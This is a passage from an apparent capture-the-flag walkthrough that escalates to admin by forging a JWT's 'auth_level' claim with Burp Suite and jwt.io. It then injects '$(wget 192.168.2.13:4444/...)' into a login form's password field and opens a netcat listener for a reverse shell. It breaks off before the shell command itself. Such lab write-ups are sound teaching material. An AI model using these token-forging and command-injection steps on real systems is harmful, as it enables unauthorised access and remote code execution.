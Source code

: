 We can become an admin by replace `"auth_level": "standard_user"` by `"auth_level": "master_admin_user"`.  
Sadly, we can't change the value of JWT token into chrome. We need `burp suite` to inject this new jwt token.

To capture the jwt token in burp-suite, go to the login page:

+ `Proxy > Intercept > Raw`
+ Right Click and select:
+ `Do Intercept > Response to this request`
+ Forward

```txt
{"success":true,"token":"JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwYXlsb2FkIjp7Im5hbWUiOiJjYXB0YWluIiwiZW1haWwiOiJjYXB0YWluQGJvdC5jbyIsInVzZXJuYW1lIjoiY2FwdGFpbiIsImF1dGhfbGV2ZWwiOiJzdGFuZGFyZF91c2VyIn0sImlhdCI6MTU0MDE0NjUyNywiZXhwIjoxNTQwNzUxMzI3fQ.ftpkxIDUp8mpqnq9N561waOcPtlfrrPvdgq-HVtAfUo","user":{"name":"captain","username":"captain","email":"captain@bot.co","auth_level":"standard_user"}}
```

Now go to [jwt.io](https://jwt.io/), past this token and change the value of `"auth_level" : "master_admin_user"`.  

Before forward the request with `burp`, we modify the request.  

we replace the token by the one of `jwt.io` and change the value of `"auth_level":"master_admin_user"`.  

Forward the new request and you are an admin.  

Next, you go on the tab `admin` to look a weird formular

```txt
Please authenticate with the Link+ CLI Tool to use Link+
```
I've re-watch the file `deobs.js`, test many other obscur commands. but nothing...  
So, a bit frustate here, i look among other solutions (ya it's suck), this formular is vulnerable to an RCE (Remote Code Execution).  
I know there are the source code of this vm somewhere and the message above the formular talk about `CLI tools` but it's not a real solution to detect this type of vulnerability.  
If someone know a tool to detect this, pls let me know :)

So anyways, let's look how it work, we create an useless file and start a http server:

    $ touch useless.txt
    $ python2.7 -m SimpleHTTPServer 4444

On the form, try if it's work:

```txt
Username: ninja
Password: $(wget 192.168.2.13:4444/useless.txt)
```

Yes ! it works. We start netcat for the next attack:

    $ nc -lnvp 1234 

And test a command found on [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

